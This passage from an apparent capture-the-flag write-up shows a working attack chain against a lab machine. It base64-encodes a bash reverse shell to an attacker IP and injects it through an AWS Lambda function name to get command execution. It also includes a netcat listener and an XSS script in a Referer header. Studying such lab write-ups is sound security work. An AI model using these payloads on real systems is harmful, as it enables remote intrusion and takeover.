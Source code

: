```bash
$ sudo nc -nlvp 80
listening on [any] 80 ...
connect to [10.10.14.61] from (UNKNOWN) [10.129.140.39] 33414
GET / HTTP/1.1
Host: 10.10.14.61
User-Agent: Wget
Connection: close
```

Command injection is confirmed. Create a base64-encoded reverse shell command. Create a new Lambda function whose name injects the base64-encoded reverse shell command. Exploit the XSS oopportunity once more to execute the command and receive a reverse shell.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
```

```bash
$ echo -n 'bash -i >& /dev/tcp/10.10.14.61/443 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42MS80NDMgMD4mMQ==
```

```bash
$ aws --endpoint-url=http://s3-testing.stacked.htb lambda create-function --function-name 'tgihf; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42MS80NDMgMD4mMQ==|base64 -d|bash' --zip-file fileb://function.zip --handler index.handler --runtime nodejs12.x --role lambda-ex
{
    "FunctionName": "tgihf; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42MS80NDMgMD4mMQ==|base64 -d|bash",
    "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:tgihf; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42MS80NDMgMD4mMQ==|base64 -d|bash",
    "Runtime": "nodejs12.x",
    "Role": "lambda-ex",
    "Handler": "index.handler",
    "CodeSize": 317,
    "Description": "",
    "Timeout": 3,
    "LastModified": "2022-03-20T06:46:27.984+0000",
    "CodeSha256": "8nUEIrrafkyKgs2i/sh63Fevj2kYkbIyFPFI5M0o6Dk=",
    "Version": "$LATEST",
    "VpcConfig": {},
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "RevisionId": "9730a66c-700a-4579-abbd-98b63effa15c",
    "State": "Active",
    "LastUpdateStatus": "Successful",
    "PackageType": "Zip"
}
```

```bash
POST /process.php HTTP/1.1
Host: portfolio.stacked.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 140
Origin: http://portfolio.stacked.htb
Connection: close
Referer: <script>document.location = "http://127.0.0.1:8080"</script>

```